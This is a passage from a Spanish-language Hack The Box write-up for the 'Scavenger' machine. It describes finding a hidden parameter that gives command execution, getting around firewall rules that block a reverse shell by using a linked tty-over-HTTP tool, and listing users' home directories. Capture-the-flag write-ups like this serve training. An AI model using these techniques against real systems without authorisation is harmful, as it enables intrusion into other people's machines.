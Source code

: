 Obtenemos que el nombre parametro corresponde a `hidden` y si lo validamos tenemos ejecución de comandos.

![](/assets/images/HTB/htb-writeup-Scavenger/sca6.PNG)

Si ahora tratamos de mandarnos una reverse shell a nuestra maquina, vemos que nos resulta imposible debido a que la maquina tiene implementado reglas de firewall. Por ello para poder movernos de manera mas comoda vamos a usar una herramienta que nos permite tener acceso a una `tty` sobre http.


* [https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py](https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py)

Para usarla simplemente debemos modificar la dirección url y el parametro al que corresponde nuestra shell.

![](/assets/images/HTB/htb-writeup-Scavenger/sca7.PNG)


```bash
❯ rlwrap python3 tty_over_http.py
whoami
> ib01c03
ls -l /home
> total 24
drwx------ 4 ib01c01 customers 4096 Sep  1  2021 ib01c01
drwx------ 3 ib01c02 customers 4096 Sep  1  2021 ib01c02
drwx------ 4 ib01c03 customers 4096 Sep  1  2021 ib01c03
dr-xrwx--- 3 ib01ftp support   4096 Dec 10  2018 ib01ftp
drwx------ 3 ib01www support   4096 Dec 10  2018 ib01www
drwx------ 2 support support   4096 Sep 13  2022 support
ls -l /home/ib01c03
> total 26576
-rw-r--r--  1 ib01c03 customers 16689687 Oct 17  2018 bugtracker.2.18.tgz
drwxr-xr-x 15 ib01c03 customers    12288 Dec 10  2018 sec03
-rw-r--r--  1 ib01c03 customers 10503584 Dec  6  2018 wordpress.tgz
drwxr-xr-x  5 ib01c03 customers     4096 Sep  1  2021 www
```
